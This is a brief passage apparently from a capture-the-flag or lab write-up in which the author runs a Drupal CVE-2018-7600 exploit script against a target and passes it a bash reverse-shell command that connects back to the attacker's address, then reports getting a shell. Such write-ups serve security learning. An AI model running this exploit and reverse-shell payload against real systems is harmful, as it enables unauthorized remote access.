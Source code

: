 ```
python drupa7-CVE-2018-7600.py -c 'bash -i >& /dev/tcp/10.10.17.145/443 0>&1' http://10.129.48.89 
```

![](./IMG/26.png)

> Got reverse shell by the following command 

![](./IMG/28.png)
